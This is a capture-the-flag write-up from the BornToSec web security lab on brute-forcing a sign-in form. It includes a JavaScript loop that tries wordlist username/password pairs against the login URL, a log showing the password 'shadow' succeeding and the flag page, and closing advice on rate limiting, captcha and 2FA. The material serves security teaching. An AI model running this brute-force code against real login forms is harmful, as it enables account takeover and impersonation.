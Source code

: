 # Sign in form Bruteforce

## How we found the breach

On the page `http://IP/?page=signin` we can find the sign in form, it takes a username and a password.

After hacking into the server database we found several user's usernames in database.

To see how we've scanned the data please look at:

[SQL injection on members table explanations →](../../sql_injection_members_table/Ressources/Explanations.md)

```js
// Only surname
"me", "GetThe",
// Surname + First name
"GetTheFlag", "meone", "metwo", "methree",
```

Also after scanning the whole database we did not found any password columns in any tables.

This is why we went for the bruteforce option, even more when there's not visible protection about it after several attempts.

### The Bruteforce script

We will use the following password and usernames dataset for the form inputs value:

- [usernames →](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
- [passwords →](https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top1000.txt)

We will then hit the endpoint below with all the possibilites until the server returns an authenticated page.

```js
`http://IP/?page=signin&username=${username}&password=${password}&Login=Login#`
```

#### The main logic

```js
  await Promise.all(usernameCollection.map(async username => {
        for (const password of passwordCollection) {
            try {
                const endpointToHit = getEndpoint({ username, password });
                const response = await fetch(endpointToHit);
                const renderedPage = await response.text()
                const attemptFailed = renderedPage.includes(BAD_AUTH_ERROR_IMAGE)

                // In case of wrong authentication atttemp the following image is rendered by the server
                // The Status code stays 200
                // <img src="images/WrongAnswer.gif" alt=""> 
                if (attemptFailed) {
                    console.log(`FAILURE for pair: username=${username} password=${password}`)
                    continue
                } else {
                    console.log(`SUCCESS for pair: username=${username} password=${password}`)
                    console.log({ renderedPage })
                    console.log('_'.repeat(10))
                    break;
                }

            } catch (e) {
                console.log(`Unkown error on attempt for username=${username} password=${password}`)
                continue
            }
        }
    }))
```

After running the script, it leads to a successful attempt for all the concurent users on the 95th password: `shadow`.
Indeed the username is not mandatory, filling the password input with `shadow` is enough the retrieve the flag from the server.

#### Log snippet

```zsh
# ...
FAILURE for pair: username=wil password=696969
FAILURE for pair: username=admin password=letmein
FAILURE for pair: username=metwo password=696969
FAILURE for pair: username=methree password=696969
FAILURE for pair: username=meone password=696969
FAILURE for pair: username=GetThe password=696969
FAILURE for pair: username=GetTheFlag password=696969
SUCCESS for pair: username=wil password=shadow
{
  renderedPage: '<!DOCTYPE HTML>\n' +
    '<html>\n' +
    '\t<head>\n' +
    '\t\t<title>BornToSec - Web Section</title>\n' +
    '\t\t<meta http-equiv="content-type" content="text/html; charset=utf-8" />\n' +
    '\t\t<meta name="description" content="" />\n' +
    '\t\t<meta name="keywords" content="" />\n' +
    '\t\t<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->\n' +
    '\t\t<script src="js/jquery.min.js"></script>\n' +
    '\t\t<script src="js/skel.min.js"></script>\n' +
    '\t\t<script src="js/skel-layers.min.js"></script>\n' +
    '\t\t<script src="js/init.js"></script>\n' +
    '\t\t<noscript>\n' +
    '\t\t\t<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />\n' +
    '\t\t\t<link rel="icon" type="image/x-icon" href="favicon.ico" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/skel.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style-xlarge.css" />\n' +
    '\t\t</noscript>\n' +
    '\t</head>\n' +
    '\t<body class="landing">\n' +
    '\t\t<!-- Header -->\n' +
    '\t\t<header id="header" >\n' +
    '\t\t\t\t\t\t\t\t<a href=http://192.168.56.101><img src=http://192.168.56.101/images/42.jpeg height=82px width=82px/></a>\n' +
    '\t\t\t\t\t\t\t\t<nav id="nav">\n' +
    '\t\t\t\t\t<ul>\n' +
    '\t\t\t\t\t\t<li><a href="index.php">Home</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=survey">Survey</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=member">Members</a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</nav>\n' +
    '\t\t\t</header>\n' +
    '\n' +
    '\t\t<!-- Main -->\n' +
    '\t\t\t<section id="main" class="wrapper">\n' +
    '\t\t\t\t<div class="container" style="margin-top:75px">\n' +
    '<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>\t\t\t\t</div>\n' +
    '\t\t\t</section>\n' +
    '\t\t<!-- Footer -->\n' +
    '\t\t\t<footer id="footer">\n' +
    '\t\t\t\t<div class="container">\n' +
    '\t\t\t\t\t<ul class="icons">\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t\t<ul class="copyright">\n' +
    '\t\t\t\t\t\t<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</div>\n' +
    '\t\t\t</footer>\n' +
    '\t</body>\n' +
    '</html>\n' +
    '\n'
}
__________
# ...
```

## How to exploit the breach

From there we could perform any operation we want inside the application, authenticated as the hacked user.

For example for mailBox account we could send emails impersonating the hacked user.

And overall we could even change the user's password depending on the application security rigor.

## How to avoid the breach

Several solution or good practices exist, such as limiting the amount of request from the same IP or adding a recaptcha usage on the form.

[2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication) authentication such a google Authenticator, requesting the user to validate it's identity on one of his other devices.

